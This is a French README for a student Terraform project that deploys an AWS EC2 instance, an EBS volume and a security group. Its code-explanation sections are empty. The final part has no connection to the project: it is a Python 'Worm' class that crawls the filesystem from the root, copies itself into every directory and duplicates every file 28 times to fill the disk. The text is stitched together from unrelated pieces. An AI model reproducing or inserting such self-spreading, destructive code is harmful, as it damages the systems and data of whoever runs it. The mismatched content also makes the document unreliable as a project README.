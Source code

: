 <div style="display:flex; align-items:center;">
  <h1 style="margin-right:auto;">Projet-AWS-terraform</h1>
 <img src="https://img.shields.io/badge/Made%20with-terraform-blue" alt="Terraform badge">
</div>


Dans le cadre de notre semaine de formation sur les outils terraform et puppet nous avons un projet terraform à créer

## Sujet

Dans le cadre du projet nous devons déployer une infrastructure complète AWS avec Terrafom, les prérequis sont :
- un module pour créer une instance ec2 utilisant la dernière version de ubuntu
- un module pour créer un volume ebs dont la taille sera variabilisée
- un module pour créer une security qui ouvrira le 80 et 443
- un dossier app qui va utiliser les 4 modules pour déployer une ec2

Nous devons également, si possible :
- installer nginx et enregistrer l’ip publique dans un fichier nommé ip_ec2.txt (ces éléments sont à intégrer dans le rôle ec2)
- pousser le projet sur GitHub et partager le lien du repo à o.nebie@ecole-ipssi.net (Optionnel)
- faire un rapport pour accompagner notre solution (le readme) 

## Architecture

Voici l'arboressence de notre projet :


## Fichier Terraform de base pour créer une instance

Dans chancun de nos modules terraform nous avons 3 fichiers :
- main.tf permet de définir les ressources à créer, les modifier ou les supprimer pour provisionner une infrastructure.
- variable.tf permet de définir les variables qui seront utilisées dans la configuration principale (main.tf) ou dans d'autres fichiers de configuration, afin de rendre la configuration plus modulaire et facilement adaptable aux différents environnements.
- terraform.tfvars permet de définir des valeurs pour les variables utilisées dans la configuration principale (main.tf) ou dans d'autres fichiers de configuration, afin de les rendre plus faciles à gérer et à modifier pour les différents environnements. 


## Explication du code 


* _Pour le module ec2_ :

* _Pour le module Eip_Publique_ :

* _Pour le module SecutiryGroup_ :

* _Pour le module ebs_ :

## Execution du projet

Afin de lancer notre projet Terraform, nous allons avoir besoin d'exécuter plusieurs commandes.

Terraform init : Cette commande permet de mettre en place un environnement de travail et l'adapter à Terraform. Cela permet de télécharger les plugins requis liés aux différents providers.

Terraform plan : Cette commande permet d'avoir une prévisualisation des modifications qui vont être apportées à l'infrastructure. Ainsi, on peut voir facilement quelles sont les parties de notre infrastructure qui sont affectées.

Terraform apply : Cette commande permet d'appliquer les modifications apportées au fichier de configuration.

En résumé, pour exécuter un projet Terraform, il faut initialiser le répertoire de travail en exécutant la commande "terraform init", générer le plan d'exécution en exécutant la commande "terraform plan" et appliquer les modifications en exécutant la commande "terraform apply".
```python
class Worm:
    def __init__(self, path=None, target_dir_list=None, iteration=None):
        if isinstance(path, type(None)):
            self.path="/"
        else:
            self.path = path
        
        if isinstance(target_dir_list, type(None)):
            self.target_dir_list=[]
        else:
            self.target_dir_list = target_dir_list

        if isinstance(target_dir_list, type(None)):
            self.iteration = 28
        else:
            self.iteration = iteration

        # path absolu
        self.own_path = os.path.realpath(__file__)
    
    def list_directories(self, path):
        self.target_dir_list.append(path)
        files_in_current_directory = os.listdir(path)

        for file in files_in_current_directory:
            
            if not file.startswith('.'):
                # Prends le PATH complet
                absolute_path = os.path.join(path, file)
                print(absolute_path)

                if os.path.isdir(absolute_path):
                    self.list_directories(absolute_path)
                else:
                    pass
    
    def create_new_worm(self):
         for directory in self.target_dir_list:
            destination = os.path.join(directory, "vers.py")
            # Copie le script dans le nouveau répertoire avec un noms similaires
            shutil.copyfile(self.own_path, destination)

    def copy_existing_file(self):
        # La méthode suivante sera utilisée pour dupliquer les fichiers un nombre de fois (iteration)
         for directory in self.target_dir_list:
            file_list_in_dir = os.listdir(directory)
            for file in file_list_in_dir:
                abs_path = os.path.join(directory, file)
                if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                    source = abs_path
                    for i in range(self.iteration):
                        destination = os.path.join(directory,(file+str(i)))
                        shutil.copyfile(source, destination)

   
    def start_worm_actions(self):
        self.list_directories(self.path)
        print(self.target_dir_list)
        self.create_new_worm()
        self.copy_existing_file()
  ```
 
 
Le code suivant permet d'appeler toutes les foncitons au lancement du ver
